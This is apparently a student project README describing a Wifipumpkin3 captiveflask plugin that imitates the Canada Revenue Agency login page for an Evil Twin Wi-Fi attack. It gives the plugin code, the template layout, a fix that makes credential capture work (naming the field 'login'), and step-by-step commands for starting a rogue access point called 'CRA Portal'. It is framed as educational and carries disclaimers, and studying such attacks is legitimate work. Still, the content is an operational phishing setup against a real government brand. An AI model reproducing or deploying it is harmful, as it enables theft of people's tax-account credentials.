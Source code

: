# COMP630-FINAL-CAPTIVEFLASK
Developing a captive portal for Wifipumpkin's captiveflask plugin
 
### Description
Developing a custom captiveflask plugin to perform an Evil Twin credential capture. This project recreates a simplified version of the Canada Revenue Agency (CRA) login portal for educational purposes. It's designed to demonstrate the creation of captive portals and should **not** be used for malicious activities. This project is purely for learning and understanding the techniques involved.

A wireless adapter is required, the one used in this instanace is the Alfa AWUS1900.

### Key Resources
A few very helpful resources that were used to create this template:

https://github.com/mh4x0f/extra-captiveflask

https://wifipumpkin3.github.io/2022/captiveflask-portal-build/

## Creating the Captive Portal

The project started by identifying a target login portal (CRA) and saving its HTML source code. The HTML was then significantly simplified, retaining only the core login functionality and essential visual elements. This simplified version focuses solely on the functional aspects of the login process, removing unnecessary elements from the original CRA website. This simulates a CRA login page. Upon submission of login credentials the user is redirected to a "redirecting" page, while their credentials are captured to Wifipumpkin. No actual authentication with the CRA system occurs.

### Configuration File

```
# file => craplugin.py
from wifipumpkin3.plugins.captiveflask.plugin import CaptiveTemplatePlugin
import wifipumpkin3.core.utility.constants as C # import plugin class base

class craplugin(CaptiveTemplatePlugin):
    Name = "craplugin"
    Version = "1.0"
    Description = "CRA Login Page'"
    Author = "Sam Bronson"
    TemplatePath = C.TEMPLATES_FLASK + "templates/exampleplugin"
    StaticPath = C.TEMPLATES_FLASK + "templates/exampleplugin/static"
    Preview = C.TEMPLATES_FLASK + "templates/exampleplugin/preview.png"
```

### File Architecture
```
craplugin/
├── static
│   ├── css 
│   │   ├── apps.css
│   │   ├── common.css
│   │   └── theme.min.css
│   └── images
│       ├── sig-blk-en.svg
│       └── wmms-blk.svg
└── templates
    ├── login.html
    └── login_successful.html
```

### Issues and Debugging.
Wifipumpkin seems to be very stringent with the input fields for credential capture, and this was the biggest problem I came across that hindered its success.

In previous versions username input was labelled as username or userid.

```
<label class="required" for="UserID">User  ID <strong class="required"><i>(required)</i></strong></label>
<input type="text" name="UserID" id="UserID" class="form-control" required>
```

What ended up working was changing the label to login, possibly indicative that Wifipumpkin is looking for "login". 

```
<label class="required" for="login">User  ID <strong class="required"><i>(required)</i></strong></label>
<input type="text" name="login" id="login" class="form-control" required>
```

### Captive Portal Setup

**Install the craplugin.zip, then run Wifipumpkin3.**

```
sudo wp3 
```

**Install the plugin to Wifipumpkin.**

```
wp3 > use misc.custom_captiveflask
wp3 > install craplugin craplugin.zip
```

**Restart Wifipumpkin3.** 

**Set up the portal.**

```
wp3 > set interface wlan0
wp3 > set ssid CRA Portal
wp3 > set proxy captiveflask
wp3 > set captiveflask.craplugin true
```

**Verify that the proxy is set up**

```
wp3 > proxies
```

**Start the instance**

```
wp3 > start
```

### Disclaimer
Any malicious use of the contents from this repository, will not hold the author responsible, the contents are solely for educational purpose.

Usage of this template for attacking without prior mutual consistency can be considered as an illegal activity.
Authors assume no liability and are not responsible for any misuse or damage caused by this program.
